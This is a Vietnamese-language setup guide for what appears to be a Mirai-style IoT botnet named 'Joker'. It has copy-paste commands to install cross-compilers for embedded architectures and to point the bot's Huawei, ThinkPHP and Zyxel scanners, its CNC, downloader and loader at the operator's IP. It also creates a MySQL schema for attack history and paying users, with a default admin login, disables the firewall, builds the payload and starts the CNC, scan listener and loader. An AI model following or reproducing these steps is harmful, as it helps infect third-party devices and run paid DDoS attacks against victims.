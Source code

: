- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mọi thứ: Bạn cần Centos 6 cho việc này
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
yum update -y; yum install epel-release -y; yum groupinstall "Development Tools" -y; yum install gmp-devel -y; ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10; yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
rm -rf /usr/local/go; wget https://dl.google.com/go/go1.10.3.linux-amd64.tar.gz; sha256sum go1.10.3.linux-amd64.tar.gz; sudo tar -C /usr/local -xzf go1.10.3.linux-amd64.tar.gz; export PATH=$PATH:/usr/local/go/bin; source ~/.bash_profile; rm -rf go1.10.3.linux-amd64.tar.gz
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
mkdir /etc/xcompile; cd /etc/xcompile; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-i586.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-m68k.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mips.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-mipsel.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-powerpc.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sh4.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-sparc.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv4l.tar.bz2; wget https://www.uclibc.org/downloads/binaries/0.9.30.1/cross-compiler-armv5l.tar.bz2; wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2; wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2; tar -jxf cross-compiler-i586.tar.bz2; tar -jxf cross-compiler-m68k.tar.bz2; tar -jxf cross-compiler-mips.tar.bz2; tar -jxf cross-compiler-mipsel.tar.bz2; tar -jxf cross-compiler-powerpc.tar.bz2; tar -jxf cross-compiler-sh4.tar.bz2; tar -jxf cross-compiler-sparc.tar.bz2; tar -jxf cross-compiler-armv4l.tar.bz2; tar -jxf cross-compiler-armv5l.tar.bz2; tar -jxf cross-compiler-armv6l.tar.bz2; tar -jxf cross-compiler-armv7l.tar.bz2; rm -rf *.tar.bz2; mv cross-compiler-i586 i586; mv cross-compiler-m68k m68k; mv cross-compiler-mips mips; mv cross-compiler-mipsel mipsel; mv cross-compiler-powerpc powerpc; mv cross-compiler-sh4 sh4; mv cross-compiler-sparc sparc; mv cross-compiler-armv4l armv4l; mv cross-compiler-armv5l armv5l; mv cross-compiler-armv6l armv6l; mv cross-compiler-armv7l armv7l; cd /tmp; wget https://storage.googleapis.com/golang/go1.8.3.linux-amd64.tar.gz -q; tar -xzf go1.8.3.linux-amd64.tar.gz; mv go /usr/local/go; cd ~/
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Thay đổi IP:
```/bot/huawei.c``` Tìm quên

```/bot/thinkphp.c``` Tìm quên

```/bot/zyxel_scanner.c``` Tìm quên

```/bot/includes.h```  (4 địa điểm)

```/cnc/main.go``` 

```/dlr/main.c```

```/loader/src/main.c``` (Dòng 30, 31, Hai lần trên 42)

```/scanListen.go```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Cài đặt mysql tạo mật khẩu root
Sao chép & Dán này: service 
```
mysqld start; mysql_secure_installation
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Đăng nhập vào mysql:
Sao chép & Dán này:  
```
mysql -u root -p
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này:
```
CREATE DATABASE Joker;
use Joker;
CREATE TABLE `history` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `user_id` int(10) unsigned NOT NULL,
  `time_sent` int(10) unsigned NOT NULL,
  `duration` int(10) unsigned NOT NULL,
  `command` text NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  PRIMARY KEY (`id`),
  KEY `user_id` (`user_id`)
);
 
CREATE TABLE `users` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `username` varchar(32) NOT NULL,
  `password` varchar(32) NOT NULL,
  `duration_limit` int(10) unsigned DEFAULT NULL,
  `cooldown` int(10) unsigned NOT NULL,
  `wrc` int(10) unsigned DEFAULT NULL,
  `last_paid` int(10) unsigned NOT NULL,
  `max_bots` int(11) DEFAULT '-1',
  `admin` int(10) unsigned DEFAULT '0',
  `intvl` int(10) unsigned DEFAULT '30',
  `api_key` text,
  PRIMARY KEY (`id`),
  KEY `username` (`username`)
);
 
CREATE TABLE `whitelist` (
  `id` int(10) unsigned NOT NULL AUTO_INCREMENT,
  `prefix` varchar(16) DEFAULT NULL,
  `netmask` tinyint(3) unsigned DEFAULT NULL,
  PRIMARY KEY (`id`),
  KEY `prefix` (`prefix`)
);
INSERT INTO users VALUES (NULL, 'clown', 'clown1337', 0, 0, 0, 0, -1, 1, 30, '');

CREATE TABLE `logins` (
  `id` int(11) NOT NULL,
  `username` varchar(32) NOT NULL,
  `action` varchar(32) NOT NULL,
  `ip` varchar(15) NOT NULL,
  `timestamp` timestamp NOT NULL DEFAULT CURRENT_TIMESTAMP
) ENGINE=InnoDB DEFAULT CHARSET=latin1;
exit;
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
Sao chép & Dán này: 
```
cd ~/; chmod 0777 * -R; sh build.sh
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
Sao chép & Dán này: 
```
python payload.py; service httpd restart 
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
iptables -F;service iptables stop 
```
```
service httpd restart  
```
```
service mysqld restart
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999
SAU ĐÓ LƯU BẰNG: ctrl X rồi Y
Sao chép & Dán 
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd ~/
screen -S cnc ./cnc
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
cd loader/
screen -S rep ./scanListen 
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
```
screen -S loader
./run.sh
```
CTRL A D
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
